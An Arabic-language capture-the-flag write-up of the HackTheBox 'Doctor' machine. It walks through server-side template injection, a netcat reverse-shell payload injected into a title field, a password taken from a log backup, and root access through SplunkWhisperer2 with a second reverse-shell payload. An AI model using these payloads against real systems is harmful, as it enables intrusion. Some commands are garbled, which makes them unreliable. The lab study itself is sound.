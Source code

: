 #hacktbebox Doctor



 ![Desktop View](/img/doc/0.png)


```
Sammmry :
```


ssti نجد انها مصابة ب  web application اثناء فحص 

 shell نقوم باستغلالها للحصول على   

 بعد البحث داخل السيرفر نجد كلمة مرور نستخدمها

  user .txt للحصول على 

  splunckd نجد ان السيرفر منصب linpeas بعد تشغيل  

   نقوم باستغلالها لنحصل على صلاحيات
   
   root


- sammmry
- 1 Recon
   - 1.1 nmap
- 2 ffuf
- 3 port
   - 3.1 new user
- 4 user
   - 4.1 ssti exploit
   - 4.2 shell
   - 4.3 Backup file
   - 4.4 User shaun
- 5 Privilege escalation
   - 5.1 linpeas
   - 5.2 splunkd
   - 5.3 exploit




## 1 Recon

### 1.1 nmap

nmap نبدا بفحص البورتات باستخدام


 ![Desktop View](/img/doc/1.png)


نلاحظ وجود  البورت 80 مفتوح الخاص بالويب سيرفر

‫‪domain‬‬ بالإضافة  الى 

‫‪doctors.htb‬‬ ‫باسم‬

/etc/hosts نضعه في ملف


 ![Desktop View](/img/doc/2.png)

## 2 ffuf



 directory brute force نقوم بعمل 

 ffufباستخدام 


  ![Desktop View](/img/doc/3.png)



## 3 port


### 3.1 new user



نفتح الدومين نيم على المتصفح ثم نقوم بتسجيل مستخدم جديد 


 ![Desktop View](/img/doc/4.png)


## 4 user

### 4.1 ssti exploit


sstiنجد ثغرة aplication عند فحص

 {{ 7 * 7 }}نجرب الامر التالي

title في

 ![Desktop View](/img/doc/5.png)


htb/archive ثم نذهب الى 


7*7  نجد ناتج العملية 
‬

‫هو‫‪49  ‬‬




 هذا يدل على ان التطبيق مصاب ب

ssti

وهي ثغرة خطيرة 





واختراق السيرفر shell تمكننا من الحصول على


 ![Desktop View](/img/doc/6.png)



 نقوم الان بعملية الاستغلال


title وذلك بحقن البايلود الخاص بنا في

```
<img src=http://10.10.14.212/$(nc.traditional$IFS-
e$IFS/bin/bash$IFS'10.10.14.212'$IFS'4444')>
```
 10.10.14.212 ip غير

 ب الخاص بك

 : بالامر التالي netcat listenerنشغل

```
nc –lnvp 4444
```

البورت الخاص بك 4444


 ![Desktop View](/img/doc/7.png)



 ![Desktop View](/img/doc/8.png)

### 4.2 shell

 حصلنا على اتصال مع السيرفر الان


 ![Desktop View](/img/doc/9.png)


  ![Desktop View](/img/doc/10.png)


### 4.3 Backup file





في backupبالفحص داخل السيرفر نجد كلمة سر داخل ملف
/var/log/apache2 المسار


 ![Desktop View](/img/doc/11.png)

### 4.4 User shaun


 ![Desktop View](/img/doc/12.png)



اويمكنك ان تجلبهم من usersلنرى home نذهب الى ملف

/etc/passwd

ثم نقوم بالدخول باستخدام كلمة السر

Guitar123

su shaun


 ![Desktop View](/img/doc/13.png)



## 5 Privilege escalation

### 5.1 linpeas

على السيرفر يمكن ان تجده هنا LinPEAS نقوم برفع


```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
```

 python web server نقوم بتشغيل 

: بالامر التالي


 ![Desktop View](/img/doc/14.png)

Python –m SimpleHTTPServer

‫ثم‬

```
wget http://10.10.10.14.212/linpas.sh
```


 10.10.14.212 ip غير

 ب الخاص بك


 ![Desktop View](/img/doc/15.png)


 ![Desktop View](/img/doc/16.png)

 ### 5.2 splunkd



 ![Desktop View](/img/doc/17.png)


نجد ان linpeasمن نتائج فحص

port 8089 على splunkd السيرفر منصب 




بالبحث في جوجل نجد اداة

splunkdتمكننا بالاتصال عبر 

```
git clone https://github.com/cnotin/SplunkWhisperer2
```


### 5.3 exploit

 ![Desktop View](/img/doc/18.png)


```
python --host 10.10.10.209 --lhost 10.10.14.212 --username shaun --password
Guitar123 --payload 'nc.traditional -e/bin/bash '10.10.14.212' '6666''
```


استبدل

ip 
10.10.14.212 

بالخاص بك 


 ![Desktop View](/img/doc/19.png)




 rootحصلنا على صلاحيات

